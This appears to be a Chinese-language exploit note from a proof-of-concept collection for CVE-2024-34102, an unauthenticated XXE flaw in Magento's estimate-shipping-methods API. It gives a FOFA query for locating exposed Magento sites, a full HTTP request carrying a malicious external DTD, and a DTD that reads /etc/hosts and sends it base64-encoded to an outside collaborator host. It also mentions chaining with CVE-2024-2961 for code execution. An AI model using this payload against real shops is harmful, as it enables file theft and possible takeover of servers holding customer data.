 ## Magento开源电子商务平台接口estimate-shipping-methods存在XXE漏洞(CVE-2024-34102)

2024年6月，Adobe官方披露CVE-2024-34102 Magento estimate-shipping-methods XXE漏洞，攻击者可在无需登陆的情况下构造恶意请求利用XXE读取文件，或者结合CVE-2024-2961 可能造成远程代码执行。

## fofa

```
app="Adobe-Magento"
```
![image](https://github.com/user-attachments/assets/fe595bf1-53db-4bde-b1f3-0d716d9533fa)

## poc

```yaml
POST /rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods HTTP/2
Host: example.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 274

{
  "address": {
    "totalsReader": {
      "collectorList": {
        "totalCollector": {
          "sourceData": {
            "data": "<?xml version=\"1.0\" ?> <!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"http://your_ip:9999/dtd.xml\"> %sp; %param1; ]> <r>&exfil;</r>",
            "options": 16
          }
        }
      }
    }
  }
}
```

DTD 文件

```yaml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://collabid.oastify.com/dtd.xml?%data;'>">
```

![img](https://cdn.prod.website-files.com/64233a8baf1eba1d72a641d4/667bc2f3b5142eeccc853498_xxe-dtd-out-magento.png)

## 漏洞来源

- https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102
